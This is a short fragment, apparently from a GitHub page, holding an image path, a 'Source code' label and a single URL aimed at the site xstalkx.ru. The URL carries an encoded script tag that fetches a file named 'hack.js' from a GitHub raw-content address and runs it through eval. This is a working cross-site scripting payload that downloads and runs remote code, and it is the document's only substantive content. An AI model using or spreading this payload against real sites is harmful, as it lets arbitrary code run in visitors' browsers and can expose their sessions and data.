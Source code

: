 https://xstalkx.ru/#||%3Cscript%3Efetch(%22https://raw.githubusercontent.com/kazu-321/viewstalk/main/hack.js%22).then%28response=%3Eresponse.text%28%29%29.then(text=%3Eeval(text))%3C/script%3E
